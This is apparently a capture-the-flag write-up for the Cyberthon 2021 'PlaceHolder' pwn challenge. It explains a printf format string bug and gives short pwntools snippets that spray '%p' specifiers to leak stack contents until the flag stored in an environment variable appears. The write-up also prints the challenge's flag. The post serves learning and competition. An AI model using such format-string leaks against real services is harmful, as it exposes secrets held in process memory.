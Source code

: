 ```yaml
---
title: Cyberthon 2021 - PlaceHolder (pwn)
date: 2021-05-19T05:59:12Z
draft: false
description: format string exploitation, stack leaking
tocOpen: true
---
```


> Hohoho seems like one of the APOCALYPSE agents messed up big time. Seems this agent went to deploy his/her code for testing and completely forgot to bring down the network service. This careless agent even forgot to private the repository containing the test code, so we've managed to obtain the source for the entire project, dockerfile and all. We've provided you with everything that we've found, so can you get the flag from their server?
>
> Interact with the service at: aiodmb3uswokssp2pp7eum8qwcsdf52r.ctf.sg:30501
>
> Note: The dockerfile we provided contains a placeholder flag, do not submit it. Get the actual flag from the network service.
>
> Attached: [dist.tar.gz](attachments/dist.tar.gz)

## Overview

Checksec:

```py
[*] '/media/sf_dabian/Challenges/Cyberthon/Pwn/placeholder/files/placeholder'

    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Dockerfile:
```
FROM amd64/ubuntu:focal

ENV user=placeholder
ENV flag=Cyberthon{PLACEHOLDER_FLAG}
RUN useradd -m $user
RUN echo "$user     hard    nproc       20" >> /etc/security/limits.conf

RUN apt-get update
RUN apt-get install -y xinetd

COPY ./placeholder /home/$user/
COPY ./service /etc/xinetd.d/$userservice

RUN chown -R root:$user /home/$user
RUN chmod -R 750 /home/$user
RUN echo "$flag" > /home/$user/flag.txt
RUN chown root:$user /home/$user/flag.txt
RUN chmod 440 /home/$user/flag.txt

USER $user

EXPOSE 1337
CMD ["/usr/sbin/xinetd", "-dontfork"]
```


Let's break down what the program is doing:

1. It scans an input.
2. It **printf(format)** _aka our input_ which gives us a format string vulnerability.
3. It then returns 0.


## Exploitation Ideas

Full RELRO means that we will not be able to overwrite the GOT. PIE means that we probably cant find the exact addresses to overwrite either unless we leak it.

We are immediately limited by our options.

Looking at the DockerFile provided to us, we can see, our flag and our user are environmental variables. _ok idk the answer at this point_

I tried sending like

```py
p = process('./placeholder')
p.sendline('%p.'*50)
p.recvall()
```

I plugged all the values into cyberchef and decoded via hex but all I got were rubbish bytes.

By this time, I had something urgent going on and I couldn't work on it anymore


## Exploitation (POST-CTF RANT)

_imagine the frustration when ur just like 2 letters away from 1000 pt chall_

```py
p = process('./placeholder')
p.sendline('%p.'*1100)
p.recvall()
```

In fact, envrionmental variables are stored on the stack, but at the very end. Hence you have to leak enough addresses.

However, it may be a little tricky as PIE and ASLR is enabled so the number of addresses to leaked is not fixed.

If you leak more than what the stack has, the program crashes.

However, if you do not leak enough, your flag doesn't come out. Hence it took a few runs of the script to get a satisfactory result.

![image](image1.png)

![image](image2.png)


**Cyberthon{d0nt_d3pl0y_1nc0mpl3t3_pr0j3ct5}**

